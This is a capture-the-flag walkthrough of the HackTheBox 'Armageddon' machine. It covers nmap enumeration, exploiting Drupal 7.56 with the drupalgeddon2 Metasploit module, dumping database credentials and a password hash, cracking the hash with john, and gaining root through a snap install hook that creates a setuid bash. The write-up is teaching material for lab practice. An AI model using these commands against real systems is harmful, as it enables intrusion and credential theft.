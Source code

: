 ```yaml
---
title: "HackTheBox - Armageddon"
author: Nasrallah
description: ""
date: 2023-02-05 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, linux, easy, sudo, rce, cve]
img_path: /assets/img/hackthebox/machines/armageddon
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


# **Description**

Hello hackers, I hope you are doing well. We are doing [Armageddon](https://app.hackthebox.com/machines/) from [HackTheBox](https://www.hackthebox.com).

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.


```terminal
Nmap scan report for 10.10.10.233
Host is up (0.33s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 82:c6:bb:c7:02:6a:93:bb:7c:cb:dd:9c:30:93:79:34 (RSA)
|   256 3a:ca:95:30:f3:12:d7:ca:45:05:bc:c7:f1:16:bb:fc (ECDSA)
|_  256 7a:d4:b3:68:79:cf:62:8a:7d:5a:61:e7:06:0f:5f:33 (ED25519)
80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-title: Welcome to  Armageddon |  Armageddon
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-generator: Drupal 7 (http://drupal.org)
```

We have OpenSSH running on port 22 and an Apache web server with Drupal on port 80.

We also see there is a robots.txt with a total of 36 disallowed entries.

## Web

Let's navigate to the web page.

![](1.png)

We have a login page and no credentials.

Let's check the /CHANGELOG.txt

![](2.png)

Here we see the version of Drupal is 7.56, let's search on exploit-db to see if this version is vulnerable.

![](3.png)

This Drupal is vulnerable to remote code execution.


# **Foothold**

Using the metasploit `exploit/unix/webapp/drupal_drupalgeddon2` module, let's exploit the service.

![](4.png)

Great! We got the shell.

# **Privilege Escalation**

Let's check the settings.php file where database credentials are stored.

![](5.png)

We find mysql credentials, let's connect to it.

```terminal
bash-4.2$ mysql -u drupaluser --password=CQHEy@9M*m23gBVj -e 'show databases;'
<er --password=CQHEy@9M*m23gBVj -e 'show databases;'                         
Database              
information_schema   
drupal             
mysql                      
performance_schema        
bash-4.2$ mysql -u drupaluser --password=CQHEy@9M*m23gBVj -D drupal -e 'show tables;'
<er --password=CQHEy@9M*m23gBVj -D drupal -e 'show tables;'                  
Tables_in_drupal   
actions  
authmap      
.
.
.
users
users_roles
variable
watchdog
bash-4.2$ mysql -u drupaluser --password=CQHEy@9M*m23gBVj -D drupal -e 'select name,pass from users;'
<er --password=CQHEy@9M*m23gBVj -D drupal -e 'select name,pass from users;'  
name    pass

brucetherealadmin       $S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt

```

We got `brucetherealadmin`'s hash, let's crack it.

```bash
──╼ $ john --wordlist=/usr/share/wordlists/rockyou.txt hash    
Using default input encoding: UTF-8
Loaded 1 password hash (Drupal7, $S$ [SHA512 128/128 SSE2 2x])
Cost 1 (iteration count) is 32768 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
booboo           (?)
1g 0:00:00:02 DONE (2023-01-26 09:28) 0.3891g/s 90.27p/s 90.27c/s 90.27C/s tiffany..harley
Use the "--show" option to display all of the cracked passwords reliably
Session completed

```

We got the password, now let's ssh to the machine.

![](6.png)

Now we run sudo -l

```bash
[brucetherealadmin@armageddon ~]$ sudo -l
Matching Defaults entries for brucetherealadmin on armageddon:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User brucetherealadmin may run the following commands on armageddon:
    (root) NOPASSWD: /usr/bin/snap install *
```

We can run snap install as root.

Checking this entry on GTFOBins, we find that we can run the following command to get root.

```bash
COMMAND='cp /bin/bash /home/hacked && chmod +s /home/hacked'
cd $(mktemp -d)
mkdir -p meta/hooks
printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
chmod +x meta/hooks/install
fpm -n xxxx -s dir -t snap -a all meta
```


```bash
sudo snap install xxxx_1.0_all.snap --dangerous --devmode
```

fpm is not installed on the target machine, so we'll execute the first part on our machine then upload the snap file to our target and execute the second part command.

First we install npm with `sudo gem install --no-document fpm`.

Now let's get root.

![](7.png)


![](8.png)


---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).